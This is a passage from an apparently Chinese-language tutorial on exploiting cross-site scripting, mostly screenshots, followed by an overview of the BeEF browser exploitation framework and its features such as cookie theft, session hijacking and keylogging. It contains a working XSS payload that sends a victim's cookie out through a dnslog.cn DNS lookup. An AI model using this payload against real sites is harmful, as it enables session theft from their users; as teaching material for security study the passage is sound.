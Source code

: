 ![image-20240820195422249](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820195422249.png)

![image-20240820195547347](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820195547347.png)

#### dnslog.cn

利用`dnslog.cn`外带出管理员cookie

![image-20240820195058227](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820195058227.png)

```js
<script type="text/javascript">var arr=document.cookie.split(/[;=]/);var  url = "http://"+arr[1]+".vbtkoe.dnslog.cn/xxx.png";document.write('<img src="'+url+'" />');</script>
```

![image-20240820195253355](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820195253355.png)

![image-20240820195316388](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820195316388.png)

## 自动XSS攻击

### BeEF简介

`Browser Exploitation Framework` (`BeEF`)

`BeEF`是目前最强大的浏览器开源渗透测试框架,通过XSS漏洞配合JS脚本和Metasploit进行渗透;

`BeEF`是基于Ruby语言编写的,并且支持图形化界面,操作简单;

http://beefproject.com/

### **BEEF**功能

#### 信息收集

1. 网络发现

2. 主机信息

3. Cookie获取

4. 会话劫持

5. 键盘记录

6. 插件信息


#### 持久化控制

1. 确认弹框

2. 小窗口

3. 中间人

